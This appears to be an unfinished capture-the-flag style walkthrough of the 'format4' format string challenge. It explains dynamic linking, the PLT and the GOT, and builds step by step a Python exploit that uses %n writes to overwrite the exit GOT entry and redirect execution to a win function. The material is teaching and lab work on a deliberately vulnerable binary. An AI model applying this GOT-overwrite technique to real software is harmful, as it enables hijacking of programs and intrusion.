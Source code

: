 ## Foreword


## Challenge Introduction

```bash
objdump -TR format4 

format4:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000  w   D  *UND*	00000000              __gmon_start__
00000000      DF *UND*	00000000  GLIBC_2.0   fgets
00000000      DF *UND*	00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*	00000000  GLIBC_2.0   _exit
00000000      DF *UND*	00000000  GLIBC_2.0   printf
00000000      DF *UND*	00000000  GLIBC_2.0   puts
00000000      DF *UND*	00000000  GLIBC_2.0   exit
080485ec g    DO .rodata	00000004  Base        _IO_stdin_used
08049730 g    DO .bss	00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

Here is the original GOT value
```bash
(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:	mov    esp,0x84da84
```

(gdb) set {int}0x8049724=0x80484b4

```bash
./format4 
AAAA %x %x %x %x
AAAA 200 b7fd8420 bffff614 41414141
```
Our provided argument is appeared on position 4 from the leaked stack. So after discovering where our argument appeared, the next step is to use that to do code redirect execution, but how we can do that? If we take look back at the source code:
```c
void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}
```
how from simple vulnerable function `printf()` could redirect us and land into `hello()` function? This is where we need to introduce the PLT and GOT sections in order to win this challenge but before those two concept brief introduction to dynamic linking will be helpful. 

## Dynamic Linking, GOT, and PLT Overview

```bash
0x8048503 <vuln+49>:	call   0x80483cc <printf@plt>
```

```bash
(gdb) disas 0x80483cc
Dump of assembler code for function printf@plt:
0x080483cc <printf@plt+0>:	jmp    DWORD PTR ds:0x804971c
0x080483d2 <printf@plt+6>:	push   0x20
0x080483d7 <printf@plt+11>:	jmp    0x804837c
End of assembler dump.
```

```bash
(gdb) disas 0x804971c
Dump of assembler code for function _GLOBAL_OFFSET_TABLE_:
0x08049700 <_GLOBAL_OFFSET_TABLE_+0>:	sub    al,0x96
0x08049702 <_GLOBAL_OFFSET_TABLE_+2>:	add    al,0x8
0x08049704 <_GLOBAL_OFFSET_TABLE_+4>:	clc    
0x08049705 <_GLOBAL_OFFSET_TABLE_+5>:	clc    
0x08049706 <_GLOBAL_OFFSET_TABLE_+6>:	push   DWORD PTR [edi-0x48009e00]
0x0804970c <_GLOBAL_OFFSET_TABLE_+12>:	xchg   edx,eax
0x0804970d <_GLOBAL_OFFSET_TABLE_+13>:	add    DWORD PTR [eax+ecx*1],0x30
0x08049711 <_GLOBAL_OFFSET_TABLE_+17>:	sub    al,0xef
0x08049713 <_GLOBAL_OFFSET_TABLE_+19>:	mov    bh,0x90
0x08049715 <_GLOBAL_OFFSET_TABLE_+21>:	fucomi st,st(2)
0x08049717 <_GLOBAL_OFFSET_TABLE_+23>:	mov    bh,0xc2
0x08049719 <_GLOBAL_OFFSET_TABLE_+25>:	add    DWORD PTR [eax+ecx*1],0xffffffd2
0x0804971d <_GLOBAL_OFFSET_TABLE_+29>:	add    DWORD PTR [eax+ecx*1],0xffffffe2
0x08049721 <_GLOBAL_OFFSET_TABLE_+33>:	add    DWORD PTR [eax+ecx*1],0xfffffff2
0x08049725 <_GLOBAL_OFFSET_TABLE_+37>:	add    DWORD PTR [eax+ecx*1],0x0
End of assembler dump.
```

## Exploitation
```py
import struct

HELLO = 0x80484b4
EXIT_PLT = 0x8049724

# Convert the hexadecimal number to a string and remove the '0x' prefix
hex_hello_str = hex(HELLO)[2:] # EO: "80484b4"

def pad(s):
        # `512-len(s)` is used to adjust the total string that will be returned to be 512
        return s+"X"*(512-len(s))

exploit = ""
exploit += struct.pack("I",EXIT_PLT)
exploit += struct.pack("I",EXIT_PLT+2)
```
TODO: tell a reason why there is `EXIT_PLT+2`, explain each the code

### We will try to write the 16 lower bits first
```py
lower_bits = hex_hello_str[-4:] # EO: "84b4"
lower_bits_dec = int(lower_bits,16) # EO: 33972
adjusted_lower_bits = lower_bits_dec-8

exploit += "%4${0}x".format(adjusted_lower_bits)

print(pad(exploit))
```
1. The variable `lower_bits` is used to extract the 2 lower bytes `84b4` from `HELLO` `0x80484b4`
2. `lower_bits_dec` is a conversion from hex to decimal
3. `adjusted_lower_bits` it's about adjusting the total number that will be written by `%n`, remember that in the beginning we were using two `exit@PLT` addresses, `EXIT_PLT` and `EXIT_PLT+2`. So the total is 8 bytes, and we need to substract it with `33972` otherwise it will add extra 8 bytes to `33972` which become `84bc` in hex. `84bc` is not what we want.

To demonstrate, this is the wrong example, without substracting 8 bytes, and here is the GOT output:
```bash
(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:	0x84da84bc
```


### upper bits
```py
upper_bits = hex_hello_str[:3]
upper_bits_dec = int(upper_bits,16)
adjusted_upper_bits = upper_bits_dec - lower_bits_dec + 2**16
exploit += "%5${0}x".format(adjusted_upper_bits)
exploit += "%5$n"
```


### Finally the solution is
```py
import struct

HELLO = 0x80484b4
EXIT_PLT = 0x8049724

# Convert the hexadecimal number to a string and remove the '0x' prefix
hex_hello_str = hex(HELLO)[2:]

def pad(s):
	# `512-len(s)` is used to adjust the total string that will be returned to be 512
	return s+"X"*(512-len(s))

exploit = ""
exploit += struct.pack("I",EXIT_PLT)
exploit += struct.pack("I",EXIT_PLT+2)

# write the lower 16 bits first
lower_bits = hex_hello_str[-4:] # expected_ouput: 84b4
lower_bits_dec = int(lower_bits,16) # expected_output: 33972
adjusted_lower_bits = lower_bits_dec-8

exploit += "%4${0}x".format(adjusted_lower_bits)

# now, finally we can write the first lower 16 bits
exploit += "%4$n"

# and then write the 16 upper bits
upper_bits = hex_hello_str[:3]
upper_bits_dec = int(upper_bits,16)
adjusted_upper_bits = upper_bits_dec-lower_bits_dec+2**16
exploit += "%5${0}x".format(adjusted_upper_bits)
exploit += "%5$n"

print(pad(exploit))
```
